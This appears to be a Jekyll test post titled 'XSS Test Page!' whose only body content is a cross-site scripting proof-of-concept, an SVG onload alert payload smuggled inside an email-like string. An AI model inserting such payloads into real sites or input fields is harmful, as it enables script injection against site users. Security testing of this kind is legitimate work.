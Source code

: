 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



“><svg/onload=alert(document.domain)>”@x.y
